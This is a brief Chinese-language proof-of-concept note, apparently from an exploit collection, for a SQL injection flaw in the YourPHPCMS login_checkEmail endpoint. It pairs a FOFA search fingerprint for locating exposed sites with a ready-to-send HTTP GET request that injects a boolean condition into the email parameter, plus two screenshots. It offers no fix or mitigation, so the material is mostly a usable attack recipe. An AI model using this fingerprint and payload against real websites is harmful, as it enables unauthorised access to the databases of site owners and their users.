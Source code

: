 # YourPHPCMS系统login_checkEmail存在sql注入漏洞
YourPHPCMS login_checkEmail存在sql注入漏洞

## fofa
```rust
header="YP_onlineid"
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1732274946081-2fa7b36f-5b27-464c-899e-b80b63981e17.png)

## poc
```rust
GET /index.php?g=Admin&m=Login&a=checkEmail&userid=1&email=-69710348@nwcrb.com'+or+'1'='2" HTTP/1.1
Host: 
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate, br, zstd
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1732274927301-ad8d704f-9b24-4757-a70a-01095646ed2a.png)

